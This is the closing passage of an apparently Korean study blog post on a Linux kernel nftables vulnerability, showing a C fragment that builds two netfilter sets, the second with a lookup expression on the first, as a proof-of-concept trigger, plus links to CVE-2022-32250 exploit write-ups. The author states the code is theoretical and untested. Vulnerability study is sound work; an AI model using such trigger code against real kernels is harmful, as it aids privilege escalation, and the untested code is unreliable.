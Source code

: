 ```c
        exit(EXIT_FAILURE);
    }

    set1 = nftnl_set_alloc();
    nftnl_set_set_str(set1, NFTNL_SET_TABLE, "poctable");
    nftnl_set_set_str(set1, NFTNL_SET_NAME, "pocset1");
    nftnl_set_set_u32(set1, NFTNL_SET_KEY_LEN, 1);
    nftnl_set_set_u32(set1, NFTNL_SET_FAMILY, family);
    nftnl_set_set_u32(set1, NFTNL_SET_ID, 0);

    nftnl_set_nlmsg_build_payload(nlh, set1);
    nftnl_set_free(set1);

    if (mnl_socket_sendto(nl, nlh, nlh->nlmsg_len) < 0) {
        mnl_socket_close(nl);
        exit(EXIT_FAILURE);
    }

    set2 = nftnl_set_alloc();
    nftnl_set_set_str(set2, NFTNL_SET_TABLE, "poctable");
    nftnl_set_set_str(set2, NFTNL_SET_NAME, "pocset2");
    nftnl_set_set_u32(set2, NFTNL_SET_KEY_LEN, 1);
    nftnl_set_set_u32(set2, NFTNL_SET_FAMILY, family);
    nftnl_set_set_u32(set2, NFTNL_SET_ID, 0);

    expr = nftnl_expr_alloc("lookup");
    nftnl_expr_set_str(expr, NFTNL_EXPR_LOOKUP_SET, "pocset1");
    nftnl_expr_set_u32(expr, NFTNL_EXPR_LOOKUP_SREG, NFT_REG_1);
    nftnl_set_add_expr(set2, expr);

    nlh = nftnl_set_nlmsg_build_hdr(buf, NFT_MSG_NEWSET, family, 
                                     NLM_F_CREATE | NLM_F_EXCL | NLM_F_ACK, seq);
    nftnl_set_nlmsg_build_payload(nlh, set2);
    nftnl_set_free(set2);

    if (mnl_socket_sendto(nl, nlh, nlh->nlmsg_len) < 0) {
        mnl_socket_close(nl);
        exit(EXIT_FAILURE);
    }
    
}
```

## **Conclusion**

사실 이 코드는 이론적으로만 만든 코드 이고, 실제 실험을 해보진 못했다. 

커널 에 KASAN 까지 넣고 빌드해서 실험을 해볼라 했는데, -lmnl 링크가 static 하게 빌드가 되지 않아, 파일시스템을 새로 만들어야했다. 

이것까지는 시간이 좀 걸릴 거 같아서 일단 뒤로 미뤄두고 다음 공부를 하기로 했다. 

나중에 리눅스에 더 익숙해지면 다시 찾아와 PoC 를 완성시켜야겠다. 


## **References**

+ <https://blog.theori.io/linux-kernel-exploit-cve-2022-32250-with-mqueue-a8468f32aab5>
+ <https://blog.dbouman.nl/2022/04/02/How-The-Tables-Have-Turned-CVE-2022-1015-1016/>
+ <https://github.com/theori-io/CVE-2022-32250-exploit/blob/main/exp.c>